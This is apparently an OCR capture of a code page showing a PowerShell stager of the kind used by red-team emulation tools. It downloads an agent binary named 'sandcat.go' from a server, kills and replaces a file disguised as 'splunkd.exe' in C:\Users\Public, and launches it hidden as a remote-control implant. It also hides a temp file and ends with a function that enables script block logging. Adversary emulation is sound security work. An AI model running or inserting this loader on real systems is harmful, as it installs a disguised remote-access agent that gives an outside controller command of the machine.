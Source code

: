 # blog
$server="http://0.0.0.0:8888";
$url="$server/file/download";
$wc=New-Object System.Net.WebClient;
$wc.Headers.add("platform","windows");
$wc.Headers.add("file","sandcat.go");
$data=$wc.DownloadData($url);
get-process | ? {$_.modules.filename -like "C:\Users\Public\splunkd.exe"} | stop-process -f;
rm -force "C:\Users\Public\splunkd.exe" -ea ignore;
[io.file]::WriteAllBytes("C:\Users\Public\splunkd.exe",$data) | Out-Null;
Start-Process -FilePath C:\Users\Public\splunkd.exe -ArgumentList "-server $server -group red" -WindowStyle hidden;
$file = Get-Item $env:temp\T1564.001-9.txt -Force; $file.attributes='Hidden'
```
function Enable-PSScriptBlockLogging {
    $basePath = @(
        'HKLM:\Software\Policies\Microsoft'
        'PowerShellCore\ScriptBlockLogging'
    ) -join '\'

    if (-not (Test-Path $basePath)) {
        $null = New-Item $basePath -Force
    }

    Set-ItemProperty $basePath -Name EnableScriptBlockLogging -Value "1"
}
```

